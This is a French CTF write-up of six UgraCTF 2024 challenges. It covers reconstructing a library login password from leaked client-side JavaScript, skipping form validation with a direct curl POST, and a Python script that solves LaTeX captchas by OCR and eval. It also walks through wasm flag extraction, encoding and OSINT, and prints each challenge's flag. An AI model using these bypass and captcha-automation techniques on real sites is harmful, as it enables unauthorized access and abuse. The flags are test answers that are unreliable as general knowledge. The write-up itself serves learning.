# Epreuves Réalisées
- Wicket Gate : [Wicket gate](#wicket-gate)
- A Messenger : [A Messenger](#if)
- Easy/Uneasy : [Easy/Uneasy](#easy_uneasy)
- Incoming Letter : [Incoming Letter](#incoming-letter)
- One, Two, Grab : [One, Two, Grab](#one-two-grab)
- IF : [IF](#if)

# Wicket Gate
Cette épreuve nous présente un site de bibliothèque :



Je vous passe la traduction du russe mais nous pouvons voir un formulaire d'authentification dans la page du second onglet

## Authentification


La page présente un système d'authentification avec deux informations :
- La carte de bibliothèque
- Le mot de passe fourni

nous pouvons voir dans la page un code javascript :
```js
document.getElementById("loginForm").addEventListener("submit", async function(event) {
	event.preventDefault();
	if (await validateCredentials()){
		  this.submit();
	}
	else{
	  alert("Недействительный номер читательского билета (возможно, вы не подписали Согласие на обработку персональных данных, обратитесь в библиотеку по адресу, указанному на Главной странице");
	}
});
async function validateCredentials() {
	var chitateli = await fetch('/ohtxfvqrgjegd6t6/list_users').then(response => {
		return response.json();
	  }).catch(err => {
		console.log(err);
	  })
	var bilet = document.getElementById('bilet').value;
	var reader_password = document.getElementById('password').value;
	if (bilet in chitateli){
	  if (chitateli[bilet].isValid == true && chitateli[bilet].signedOnlineConsent == true){
		let password = "";
		password += bilet[5] + bilet[4] + bilet[6];
		password += String.fromCharCode(1040+parseInt(bilet[3]));
		password += String.fromCharCode(1040+parseInt(bilet[7]));
		password += String.fromCharCode(1040+parseInt(bilet[8]));
		password += String(10 - parseInt(bilet[0]));
		password += '7'
		if (password.match(/[0-9]{3}[А-Я]{3}[0-9]{2}/) && password == reader_password){
		  return true;
		}
	  }
	}
	return false;
}
```

Aussi, lors de la validation du formulaire, nous pouvons voir un appel à l'endpoint `list_users` :
```
https://wicketgate.q.2024.ugractf.ru/ohtxfvqrgjegd6t6/list_users
```

Cet endpoint présente :
- Les numéros d'utilisateurs existants
- Leur validité
- Si ils ont signé le formulaire de consentement

Nous pouvons voir dans le code #javascript qu'un bon utilisateur est valide et a signé le consentement :
```js
if (chitateli[bilet].isValid == true && chitateli[bilet].signedOnlineConsent == true)
```

Le code construit après le mot de passe de l'utilisateur en fonction de son numéro.

Nous prenons un numéro valide :
```json
"8610014990":{
	"isValid":true,
	"signedOnlineConsent":true
	}
```

Nous construisons son mot de passe :
```js
bilet = "8610014990"
password = ""; 
assword += bilet[5] + bilet[4] + bilet[6];
password += String.fromCharCode(1040+parseInt(bilet[3]));
password += String.fromCharCode(1040+parseInt(bilet[7]));
password += String.fromCharCode(1040+parseInt(bilet[8]));
password += String(10 - parseInt(bilet[0]));
password += '7'
```

Nous obtenons : `104АЙЙ27` pour l'utilisateur de numéro `8610014990`.

## Page de catalogue

Après l'authentification, nous pouvons aller sur le 3eme onglet jusqu'alors verrouillé, un catalogue.


Seul le dernier lien est intéressant, il possède des champs à renseigner pour vérification :


La page possède un code javascript :
```js
document.getElementById("orderForm").addEventListener("submit", function(event) {
	event.preventDefault();
	if (ReaderCheck()){
		  this.submit();
	}
	else{
	  alert("Не подтверждена личность читателя!");
	}
});                     

function ReaderCheck() {
	var vuz_id = document.getElementById('vuz_id').value;
	if (!vuz_id.match(/^[0-9]{13}$/)){
		return false;
	}   
	var driver_id = document.getElementById('driver_id').value;
	if (!driver_id.match(/^[0-9]{2}\s[0-9]{2}\s[0-9]{6}$/)){
		return false;
	}
}
```

Nous pouvons ignore la vérification en faisant nous même la requête avec notre cookie de session et les paramètre POST (qui ne seront du coup pas vérifiés).

Nous procédons avec #curl :
```
curl -X POST \
https://wicketgate.q.2024.ugractf.ru/ohtxfvqrgjegd6t6/catalog/11 \
-H "Cookie: session=eyJhdXRoIj...f5h8k" \
-d 'vuz_id=000000000000&driver_id=00 00 000000'
```

Réponse :
```html
<!DOCTYPE html>
<html>
  <head>
    <title>Выписка книги</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <!-- Bootstrap -->
    <link href="//cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/3.3.7/css/bootstrap.min.css" rel="stylesheet">
  </head>
  <body>
	[...]
      <li>Книга была успешно выписана! Для получения книги, предъявите следующий код при посещении библиотеки: ugra_wicket_gate_is_not_wicked_uqpg40dtv4jv </li>
	[...]
  </body>
</html>
```

Traduction :
```
Le livre a été extrait avec succès ! Pour recevoir un livre, présentez le code suivant lors de votre visite à la bibliothèque : ugra_wicket_gate_is_not_wicked_uqpg40dtv4jv
```

Le flag est : `ugra_wicket_gate_is_not_wicked_uqpg40dtv4jv`

# A Messenger

## Paper please
Nous pouvons voir une image :


C'est une référence claire au jeu paper please, l'élément de déchiffrement :


## Déchiffrement
En passant l'élément de déchiffrement sur l'image, nous pouvons voir deux chaînes distinctes :


Donne : `ugra*snowier*pa`


Donne : `stures*8m0fksqx`

Si l'on colle les deux chaînes et que l'on remplace les `*` par des `_`, cela donne le flag :
```
ugra_snowier_pastures_8m0fksqx
```

# Easy/Uneasy

## Easy ou Uneasy ?
Le site de la compétition dit qu'il existe une manière plus facile de terminer `Easy` et que `Uneasy` est la version patchée de celle-ci.

je vais exposer une méthode plutôt attendue, donc elle fonctionne pour les deux épreuves (qui sot en tout point similaires d'un point de vue front-end)

## Première aproche
Nous débarquons sur un site qui nous propose de cliquer 2000+ fois sur un bouton pour obtenir le flag, problème, après quelques clics, un captcha apparait, et pas des plus faciles :


## Stratégie
La stratégie pour automatiser le processus de résolution de captcha est la suivante :
- Récupérer l'image (en effet c'est un png)
- Récupérer le calcul
- Évaluer le calcul

## Récupération de l'image
L'image est un png codé en base64, Pour le voir, il faut regarder la réponse reçue lors d'un clic sur le bouton.

Un clic sur le bouton envoie un #json en requête POST au endpoint `/click` de la forme :
```json
{
	"captcha_result": VALEUR
}
```

Si un captcha est demandé et que la valeur envoyée est fausse ou que le captcha vient d'être mis en place, le JSON renvoyé par le serveur est de la forme :
```json
{
	"counter": NOMBRE_DE_CLICK_RESTANT,
	"flag": null,
	"need_captcha": True,
	"picture" : [L'image en base64]
}
```

Si toutefois le captcha renvoyé valide ou qu'il n'y avait pas besoin de donner une réponse, le serveur renverra un JSON de la forme :
```json
{
	"counter": NOMBRE_DE_CLICK_RESTANT,
	"flag": null,
	"need_captcha": False
}
```

Après une vérification de captcha, nous pouvons faire **quelque clics** avant qu'il ne revienne.

Conclusion, nous pouvons facilement récupérer l'image avec ce que le serveur nous renvoie.

## Récupération du calcul
L'image ressemblant fort à une mise en page #LaTeX, je me suis dit que j'allais chercher une sorte d'OCR pour le LaTeX.

Un repository github tout à fait utile : [LaTeX-OCR](https://github.com/lukas-blecher/LaTeX-OCR)

Cette libraire python permet de reconnaître un calcul et de le transformer en code LaTeX.

Exemple en #python :
```python
img = Image.open('image_du_calcul.png')
model = LatexOCR()
code_latex = model(img)
print(code_latex)
```

Cela va nous donner quelque chose comme :
```
\frac{4\cdot0\cdot(8+6)\cdot4}{(5-(3-1))\cdot8\cdot((0-2)\cdot(8+7)+6-(8+6))}
```

Ce qui n'est pas très lisible par une fonction d'évaluation tel que `eval` en python.

Nous simplifions donc tout ca avec des expressions régulières #regex.

# Exploitation finale
```python
import requests, re
from base64 import b64decode
from PIL import Image
from pix2tex.cli import LatexOCR
  
url = "URL"
headers = {
	"Content-Type": "application/json"
}
data = {"captcha_response": ""}
counter, flag, picture, req = -1, None, "", None
  
while flag == None:
	need_captcha = False
  
	while not need_captcha and flag == None:
		req = requests.post(url, headers=headers, json=data)
		result = req.json()
		need_captcha = result["need_captcha"]
		counter = int(result["counter"])
		flag = result["flag"]
		if(counter % 100 == 0): print("[+] COUNTER :", counter)
	if flag == None:
		picture = result["picture"].split("64,")[1]
		  
		try:
			with open("essai.png", "wb") as latex_file:
			latex_file.write(b64decode(picture))
			img = Image.open('/home/schizoboy/Téléchargements/essai.png')
			model = LatexOCR()
			calc = model(img)
			calc = eval(re.sub(r'frac{([^}]*)}{([^}]*)}', r'((\1)/(\2))', calc.replace("\\", "").replace("cdot", "*").replace("left","").replace("right", "")).replace("{", "").replace("}", ""))
			data["captcha_response"] = int(calc*1000)/1000
		except:
			print("[+] OCR failed")
  
print("[+] FLAG :", flag)
```

# Incoming Letter

## Fichier eml
Un fichier `eml` (abréviation d'email) est un fichier contenant un mails et ses diverses données/metadonnées.

Ce fichier semble ici contenir des images et du texte. Le texte semble soit chiffré, soit encodé :


## Encodage
Après de ***longues*** recherches, nous trouvons que le mauvais encodage du texte est quelque chose qui arrive souvent aux russes avec l'encodage `Windows-1251`, un encodage sur 8-bit, posant problème avec le cyrillique.

Un programme python permettant de retrouver de l'UTF-8 à partir de cet encodage est :
```python
t = "..."
print(t.encode('windows-1251').decode('utf8'))
```

## Flag
En parcourant le mail et en décodant morceaux par morceau, on trouve :
``` python
>>> t = "ДЛЯ участия на 101 рубль (со скидкой 9 999 рублей) ｕｇｒａ＿ｓｔｏｐ＿ｓｅｎｄｉｎｇ＿ｓｐａｍ＿ｐｌｅａｓｅ＿００４１２３０２０７３０"

>>> t.encode("windows-1251").decode('utf8')
'ДЛЯ участия на 101 рубль (со скидкой 9 999 рублей) ｕｇｒａ＿ｓｔｏｐ＿ｓｅｎｄｉｎｇ＿ｓｐａｍ＿ｐｌｅａｓｅ＿００４１２３０２０７３０'
```

Le flag : `ugra_stop_sending_spam_please_004123020730`

# One, Two, Grab

## Web Assembly
Ce challenge nous donne un fichier semblant être un #wasm. Je ne m'y connais pas assez, nous allons donc y aller par tatonnement.

On transforme le code en #base64 on le charge dans le navigateur à l'aide du code #html #js suivant :
```html
<html>
  <body>
    <script>
      code = Uint8Array.from(atob("AGFzbQEAAAABEQRgAAF/YAAAYAF/AGABfwF/AwgHAQAAAAIDAAQFAXABAgIFBgEBgAKAAgYJAX8BQeCIwQILB4wBCQZtZW1vcnkCAAhnZXRfZmxhZwABD2dldF9mbGFnX2xlbmd0aAACC19pbml0aWFsaXplAAAZX19pbmRpcmVjdF9mdW5jdGlvbl90YWJsZQEAEF9fZXJybm9fbG9jYXRpb24ABglzdGFja1NhdmUAAwxzdGFja1Jlc3RvcmUABApzdGFja0FsbG9jAAUJBwEAQQELAQAKuQQHAwABC4gEAgd/An4jAEFAaiEBQdgIQYLru4sENgIAQdAIQpCEgKiQ+d6bo383AwBBAyEAQZCEgCghAgNAIABBAnQiA0HQCGogA0HICGooAgAiBSAAIAJzc0G5893xeXM2AgAgAEEBaiIEQYAgRkUEQCAEQQJ0QdAIaiADQcwIaigCACICIAQgBXNzQbnz3fF5czYCACAAQQJqIQAMAQsLIAFCqNe6jcv2rd29fzcDOCABQpCn2szJ86fRpX83AzAgAUL49vmLyPChxY1/NwMoIAFC4MaZy8btm7n1ADcDICABQsiWuYrF6pWt3QA3AxggAUKw5tjJw+ePocUANwMQIAFCmLb4iMLkiZUtNwMIIAFCgIaYyMDhg4kVNwMAQcgIKAIAIQBBxAgoAgAhA0EAIQIDQCADQQFqQf8fcSIDQQJ0QdAIaiIEQX9BACAArSAENQIAQt6SAX58IgdCIIgiCCAHfKciACAIpyIESSIFGyAAa0ECayIANgIAIAEgAEEQdkE/cWoiBiAGLQAAIABzOgAAIAQgBWohACACQQFqIgJBf0cNAAtByAggADYCAEHECCADNgIAQQAhAANAQcwIKAIAIABqIgIgACABai0AACACLQAAczoAACAAQQFyIgJBzAgoAgBqIgMgASACai0AACADLQAAczoAACAAQQJqIgBBwABHDQALQcwIKAIACwUAQcAACwQAIwALBgAgACQACxAAIwAgAGtBcHEiACQAIAALBgBB0IgBCwtXAgBBgAgLQGvudVLUCcf5KBfP6+4dRxtYina0KazkHDGYsmaiMSqNNQX9DK0a5zl4ZGIDh7930Z+QWH5Jz4BlEq5ZBJU96DUAQcQICwr/DwAAxIcFAAAE"), c => c.charCodeAt(0));
      wasmModule = new WebAssembly.Module(code);
      wasmInstance = new WebAssembly.Instance(wasmModule);
    </script>
  </body>
</html>
```

En consultant le code dans l'inspecteur, nous pouvons voir plusieurs fonctions exportés dans le fichier wasm, et donc, que l'on peut appeler grâce à l'instance créée :
```wasm
(export "memory" (memory $memory0))
(export "get_flag" (func $func1))
(export "get_flag_length" (func $func2))
(export "_initialize" (func $func0))
(export "__indirect_function_table" (table $table0))
(export "__errno_location" (func $func6))
(export "stackSave" (func $func3))
(export "stackRestore" (func $func4))
(export "stackAlloc" (func $func5))
```

Deux sont très intéressantes : `get_flag` et `get_flag_length`. Nous pouvons les appeller comme ceci :
```js
>> console.log(wasmInstance.exports.get_flag())
>> console.log(wasmInstance.exports.get_flag_length())
```

Cela renvoie :
```js
>> 1024
>> 64
```

La fonction `get_flag` a durée assez longtemps pour renvoyer finalement un chiffre au lieu du vrai flag.
La fonction `get_flag_length` renvoie 64, mais nous aurions aussi pu le voir en examinant le fonction elle même :
```wasm
(func $func2 (result i32)
	i32.const 64
)
```

Le flag fait donc a priori 64 caractères.

## Fonction get_flag
La fonction `get_flag` prend beaucoup de temps à s'exécuter, en revanche, en la regardant de plus près, nous pouvons voir quelque chose dans sa dernière boucle :
```
loop $label2
  i32.const 1100
  i32.load
  local.get $var0
  i32.add
  local.tee $var2
  local.get $var0
  local.get $var1
  i32.add
  i32.load8_u
  local.get $var2
  i32.load8_u
  i32.xor
  i32.store8
  local.get $var0
  i32.const 1
  i32.or
  local.tee $var2
  i32.const 1100
  i32.load
  i32.add
  local.tee $var3
  local.get $var1
  local.get $var2
  i32.add
  i32.load8_u
  local.get $var3
  i32.load8_u
  i32.xor
  i32.store8
  local.get $var0
  i32.const 2
  i32.add
  local.tee $var0
  i32.const 64           <----------- Comparaison avec la longueur du flag
  i32.ne
  br_if $label2
end $label2
```
Cela pourrait s'apparenter à la construction du flag même si il n'est pas imprimé.

En mettant des breakpoint dans la boucle, on peut se rendre compte que la variable `$var2` va contenir des valeurs très similaires à des codes #ascii, juste après l'instruction de XOR :
```
local.get $var2
i32.load8_u
i32.xor
```


## Flag
En récupérant les caractères ASCII après chaque instruction XOR, nous obtenons (après décodage) :
```
ugra_those_are_basically_all_the_possibilities_of_wasm_r70fwqvdi
```

# IF

## Ascenseur allemand
L'épreuve est traîte d'OSINT et de reconnaissance.

On nous demande de chercher ce que IF (en deux mots) peut vouloir dire sur l'écran d'un ascenseur allemand :


Nous trouvons que cela peut vouloir dire : `Inspektionsfahrt` en faisant une recherche en Allemand.

Les deux mots sont donc `Inskpektion` et `Fahrt`.

Nous sommes redirigés sur le endpoint `/verify_result` ou une magnifique photo d'Angela Merkel se tient à côté de ce qui semble être le flag distordu :


# Flag
Le flag est :
```
ugra_keep_your_schluesselbund_from_falling_into_the_aufzugskabinenetagebodenspalt_qotn7jy3nup0
```